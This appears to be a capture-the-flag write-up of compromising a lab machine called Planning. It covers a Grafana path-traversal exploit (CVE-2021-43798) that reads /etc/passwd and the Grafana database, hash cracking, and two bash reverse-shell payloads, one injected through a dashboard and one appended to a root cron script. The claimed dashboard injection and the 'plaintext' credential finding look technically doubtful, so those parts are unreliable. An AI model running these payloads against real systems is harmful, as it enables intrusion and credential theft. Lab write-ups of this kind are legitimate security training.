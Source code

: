 ![](images/image0.png)

# Planning Grafana Exploitation & Privilege Escalation Walkthrough

This report provides a detailed and professional breakdown of the **Planning** machine compromise.  
It highlights reconnaissance, exploitation of an exposed **Grafana service**, credential recovery, and privilege escalation to root.

---

## 1. Initial Reconnaissance

We began with a complete Nmap scan to identify all open ports and active services on the target host `10.129.33.173`:

```bash
nmap -p- -Pn 10.129.33.173 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.33.173 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.33.173 -v --script vuln -oN nmap_vuln.txt
```

![](images/image5.png)

Port **3000** revealed a **Grafana web interface**, typically used for monitoring and visualization dashboards.

![](images/image1.png)

---

## 2. Grafana Enumeration

The Grafana instance was accessible without authentication.  
Navigating to `/api/search` exposed sensitive endpoints and internal dashboards.

![](images/image3.png)

We queried `/api/dashboards/home` to extract system-level metadata, including hostnames and plugin details.

![](images/image7.png)

This confirmed the instance was running **Grafana v8.0.0**, a version known to be vulnerable to **Path Traversal (CVE-2021-43798)**.

---

## 3. Exploitation — CVE-2021-43798

We exploited the vulnerability to read arbitrary files from the server using a crafted URL path traversal payload:

```bash
curl http://10.129.33.173:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
```

![](images/image6.png)

The response confirmed successful file disclosure, confirming the target’s exposure.

We then escalated our attack to retrieve the **Grafana configuration file**:

```bash
curl http://10.129.33.173:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

![](images/image4.png)

---

## 4. Extracting and Cracking Credentials

After downloading the `grafana.db` SQLite database, we queried the internal tables for user credentials:

```bash
sqlite3 grafana.db
sqlite> .tables
sqlite> SELECT * FROM user;
```

![](images/image2.png)

Extracted password hashes were converted for **Hashcat** using `grafana2hashcat`:

```bash
python3 grafana2hashcat.py hashes.txt
hashcat -m 10900 hashcat_hashes.txt rockyou.txt
```

The cracked credentials revealed a valid user account:

```
admin : cricket
```

We used these credentials to log in to the Grafana web portal, confirming administrative access.

---

## 5. Gaining Shell Access

Through the **Grafana server-side template injection (SSTI)** capability in dashboard panels, we gained remote command execution.

By editing the dashboard query, we injected the following payload:

```
${system("bash -c 'bash -i >& /dev/tcp/10.10.15.30/4444 0>&1'")}
```

![](images/image8.png)

After executing the panel, our listener received a **reverse shell connection** under the `grafana` system user.

![](images/image9.png)

---

## 6. Privilege Escalation via Misconfigured Backup Script

During local enumeration, we found a cron job running a **backup script** owned by root with world-writable permissions:

```bash
ls -la /opt/backup.sh
```

![](images/image10.png)

We appended a reverse shell command to the script:

```bash
echo "bash -i >& /dev/tcp/10.10.15.30/5555 0>&1" >> /opt/backup.sh
```

After waiting for the scheduled task to run, a new root shell was received.

![](images/image11.png)

We confirmed access to `/root/root.txt`, completing the privilege escalation.

---

## 7. Conclusion

This assessment demonstrates a full compromise chain leveraging Grafana misconfiguration and local privilege escalation.

### Key Findings:
- Grafana 8.0.0 vulnerable to **CVE-2021-43798** (Path Traversal).  
- Database exposure led to plaintext credential recovery.  
- Weak operational security enabled dashboard-based command injection.  
- Root-owned backup scripts had insecure permissions allowing privilege escalation.

### Security Recommendations:
- Update Grafana to the latest patched version.  
- Restrict external access to internal monitoring dashboards.  
- Enforce strict file permissions for system scripts.  
- Avoid embedding plaintext credentials in local databases.  
- Regularly audit cron jobs and system services for privilege misuse.

---
